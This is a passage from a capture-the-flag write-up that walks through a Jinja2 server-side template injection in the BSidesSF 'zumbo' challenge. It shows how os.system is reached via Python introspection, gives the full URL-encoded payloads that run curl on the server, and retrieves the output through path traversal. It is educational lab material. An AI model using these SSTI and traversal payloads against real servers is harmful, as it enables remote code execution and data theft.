['tokenize', 'heapq', 'copy_reg', 'sre_compile', '_collections', 'locale', '_sre', 'functools', 'encodings', 'site', '__builtin__', 'sysconfig', '__main__', 'operator', 'encodings.encodings', 'pkgutil', '_heapq', 'abc', 'posixpath', '_weakrefset', 'errno', 'encodings.codecs', 'sre_constants', 're', '_abcoll', 'collections', 'types', '_codecs', 'encodings.__builtin__', 'opcode', '_warnings', 'genericpath', 'stat', 'zipimport', '_sysconfigdata', 'string', 'warnings', 'UserDict', 'inspect', 'encodings.utf_8', 'repr', 'sys', '_osx_support', 'imp', 'codecs', 'readline', 'os.path', 'strop', '_functools', '_locale', 'thread', 'keyword', 'signal', 'traceback', 'pydoc', 'linecache', 'itertools', 'posix', 'encodings.aliases', 'exceptions', 'sre_parse', 'os', '_weakref', 'token', 'dis']
```

There it is, the `os` module, and its `system()` method:

```sh
>>> warnings.WarningMessage.__init__.__globals__['sys'].modules['os']
<module 'os' from '/opt/local/Library/Frameworks/Python.framework/Versions/2.7/lib/python2.7/os.pyc'>
>>> warnings.WarningMessage.__init__.__globals__['sys'].modules['os'].system
<built-in function system>
```

Now that we can get a reference to the `system()` method by introspecting the `warnings.WarningMessage` class, the next step is to translate this into a URL payload. As usual, we start with the Jinja expression delimeters, then we walk up to the root object, as before. Recall that payload, URL-encoded is:

```
%7B%7B''.__class__.__mro__[2].__subclasses__%28%29%7D%7D
```

This produced the long list of available Python object and class references. We want to access the `warnings.WarningMessage` one, so we need to find its index number in the list. The naive way to do this is to simply enumerate each item in the list, starting at `0`, and incrementing until we find the value we're after. For instance, [injecting `{{''.__class__.__mro__[2].__subclasses__()[0]}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__[2].__subclasses__%28%29[0]%7D%7D) gives us the very first item in the list (`<type 'type'>`). Incrementing the `0` to a `1` and injecting that gives us the second item (`<type 'weakref'>`). We can continue in this manner until we get the desired result, which turns out to be index number `58`. Thus, [our payload so far is `{{''.__class__.__mro__[2].__subclasses__()[58]}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__[2].__subclasses__%28%29[58]%7D%7D):

```html
[Errno 2] No such file or directory: u"<class 'warnings.WarningMessage'>"
```

Now that we have found the `WarningMessage` class in the remote server, we traverse the object referneces in the same way we did on our local machine. This means we append `.__init__.__globals__['sys'].modules['os'].system` to our payload. This results in:

```
{{''.__class__.__mro__[2].__subclasses__()[58].__init__.__globals__['sys'].modules['os'].system}}
```

[URL-encode and inject it](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B%27%27.__class__.__mro__%5B2%5D.__subclasses__%28%29%5B58%5D.__init__.__globals__%5B%27sys%27%5D.modules%5B%27os%27%5D.system%7D%7D), and we are greeted with our desired function reference:

```html
[Errno 2] No such file or directory: u"<built-in function system>"
```

Finally, we can now run the `system()` method on the remote server with any command available to the Web server process. The command that should be is fairly clear by now. The `server.py` source code retrieves the third flag by making a HTTP `GET` request to `http://vault:8080/flag`. Let's just do the same thing. If we were at a command prompt on the remote server, all we would need to do is run `curl http://vault:8080/flag`. That would download the `/flag` file from the `vault` server listening on port `8080` and spit out the contents of the file to our terminal. But we're *not* at a terminal on the server, we're in a *Python* method.

Since the `system()` method cannot be used to retrieve the output of the command we run (merely its exit status), we will need to redirect the output of a command to a file that we can write to. By convention on most *nix-style servers, the `/tmp` directory is "world-writeable," meaning any process can write files there, so we can use that directory as a kind of scratchpad. When we pass a command to the `system()` method, Python executes it "in a subshell," so we need to use the standard [shell IO redirection](http://www.tldp.org/LDP/abs/html/io-redirection.html) syntax to do so. We'll pick a name for our temporary file that is memorable but inconspicuous and redirect the output of the `curl` command to it. Our ultimate command would thus look something like `curl http://vault:8080/flag > /tmp/totally.inconspicuous.file`.

At long last, our full injection payload becomes possible:

```
{{''.__class__.__mro__[2].__subclasses__()[58].__init__.__globals__['sys'].modules['os'].system('curl http://vault:8080/flag > /tmp/totally.inconspicuous.file')}}
```

Once again we [URL-encode and inject it](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B%27%27.__class__.__mro__%5B2%5D.__subclasses__%28%29%5B58%5D.__init__.__globals__%5B%27sys%27%5D.modules%5B%27os%27%5D.system%28%27curl+http%3A%2F%2Fvault%3A8080%2Fflag+%3E+%2Ftmp%2Ftotally.inconspicuous.file%27%29%7D%7D) by loading the payload URL with a Web browser, and we receive the `0` exit status from the `system()` method's successful execution of the `curl` command:

```html
[Errno 2] No such file or directory: u"0"
<!-- page: 0, src: /code/server.py -->
```

The flag file contents has now, presumably, been downloaded to the server's local filesystem and resides at `/tmp/totally.inconspicuous.file`. To get it, all we need to do is use the path traversal attack we discovered in the previous part of this challenge. This time, though, instead of `/flag` the flag will be at `/tmp/totally.inconspicuous.file`. Our last URL payload is thus `/%2e%2e%2f%2e%2e%2ftmp/totally.inconspicuous.file`. [Loading that URL](http://zumbo-8ac445b1.ctf.bsidessf.net/..%2f..%2ftmp/totally.inconspicuous.file) now reveals the flag:



# Tools

Now that you understand more details of URL mapping, percent-encoding, path traversal attacks, and server-side template injection attacks, consider familiarizing yourself with the following tools to make this sort of work easier in the future.

* [OWASP ZAP](https://www.owasp.org/index.php/Projects/OWASP_Zed_Attack_Proxy_Project) - intercepting Web proxy that can replay, debug, and fuzz HTTP requests and responses
* [tplmap](https://github.com/epinna/tplmap) - command-line tool that automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities
